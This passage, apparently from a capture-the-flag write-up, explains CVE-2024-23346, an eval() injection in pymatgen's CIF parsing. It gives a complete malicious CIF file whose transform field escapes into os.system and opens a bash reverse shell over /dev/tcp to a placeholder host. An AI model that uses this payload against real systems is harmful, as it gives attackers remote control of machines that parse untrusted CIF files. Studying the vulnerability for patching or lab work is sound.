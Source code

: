 After understanding `Crystallographic Information File (CIF)`, let's do some research for exploits against CIF file. I came across an exploit as [CVE-2024-23346 - Arbitrary Code Execution in pymatgen](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f){:target="_blank"}.

<b>CVE-2024-23346</b>

`CVE-2024-23346` is a critical security vulnerability exists in the `JonesFaithfulTransformation.from_transformation_str()` method within the pymatgen library. This method insecurely utilizes eval() for processing input, enabling execution of arbitrary code when parsing untrusted input. This can be exploited when parsing a maliciously-created CIF file.

Let's use `_transformation_str()` method within the pymatgen library to create malicious payload to trigger reverse shell.

```bash
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<ip>/4444 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Let's create malicious CIF file.

```bash
data_Exploit
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'

loop_
_atom_site_label
_atom_site_fract_x
_atom_site_fract_y
_atom_site_fract_z
_atom_site_occupancy
H 0.00000 0.00000 0.00000 1
O 0.50000 0.50000 0.50000 1

# Malicious payload triggering reverse shell via vulnerable pymatgen function
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<ip>/4444 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
